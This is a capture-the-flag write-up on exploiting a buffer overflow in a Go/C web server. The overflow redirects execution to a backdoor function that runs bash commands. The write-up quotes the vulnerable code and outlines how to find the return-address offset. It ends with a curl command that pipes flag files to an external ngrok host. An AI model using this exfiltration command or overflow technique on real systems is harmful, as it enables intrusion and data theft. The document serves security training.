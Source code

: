 # Go Pwn Gown (day7)

<p align="justify">This challenge was a Pwn challenge in which the goal was to perform a buffer overflow on a website to read the flag stored on the server. Source code was provided with a docker file so that the server could have been ran locally, which revealed very helpful insofar as I had access to server logs. </p>

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify"> Looking at source code, it seemed that a backdoor was already included in the code of the running server. This backdoor shown in the snippet below could have been used to run command remotely : </p>

````c
void unsafeFunction(char *gown) {
    char buffer[64];
    memcpy(buffer, gown, 128); // UTF8 AMIRIGHT ?!
    printf("Received: %s\n", buffer);
}

void laluBackdoor() {
    char *bash_path = "/bin/bash";
    extern char **environ;
    execle(bash_path, bash_path, "-c", "echo $(${GOWN})", NULL, environ);
}
````

<p align="justify">  The flaw here was caused by the use of a buffer of size 64 in which 128 bytes were copied. The parameter gown was read from the website and then handled thanks to the function below, calling the unsafeFunction() containing the weakness : </p>

````c
func handleRequest(w http.ResponseWriter, r *http.Request) {
	log.Println("Calling handleRequest")
	defer func() {
		log.Println(r.URL.Path)
		gown := r.URL.Query().Get("gown")
		if gown == "" {
			http.Error(w, "Gown parameter is missing", http.StatusBadRequest)
			return
		}

		cGown := C.CString(gown)
		if i := strings.IndexByte(gown, '\x00'); i != -1 {
			gown = gown[:i]
		}
		os.Setenv("GOWN", string(gown))
		fmt.Println("Getenv(GOWN) = ", os.Getenv("GOWN"))
		defer C.free(unsafe.Pointer(cGown))

		C.unsafeFunction(cGown)
		// C.laluBackdoor()
		w.Write([]byte("Request handled\n"))
	}()
}
````

<p align="justify">To exploit it, I started by running the docker on my machine to adjust my payload using the logs. I developped a tiny C script avalible under exploit.c in this repo, to guess the number of chars I had to sent before overwritte ret address on the stack. The method I followed is described below : </p>

- I started by extracting the server binary running in the docker
- Then I extrated the address of the lalubackdoor using gdb
- I used this address in little endian format crafting the payload like this : payload = 64* 'A' + [little endian backdoor address]. I started with 64 bytes because it was the size of the buffer
- Then I sent the payload to the server and added one char at each loop, checking the logs in the meantine to identify the exact number of bytes required to perform a bof

<p align="justify">It came that I had to sent 72 chars before being able to overwritte the ret address and access lalubackdoor, as shown in the snippet below with the error on the execution of /bin/bash meaning that I well overwrote the ret address : </p>

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

The payload size once defined; I implemented a second C script to send command to run to the server so that I could have been able to read the flag, the script is available in exploit2.c in this repo. 

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S5.png" alt="Desc"></p>

````bash
#!/bin/bash
cat /flag/* | curl -X POST --data @- http://6.tcp.eu.ngrok.io:13524/
````

Flag : _RM{OffenSkillSaysWhat2024YouGotGowned}_ , thanks _Laluka_ for this challenge !
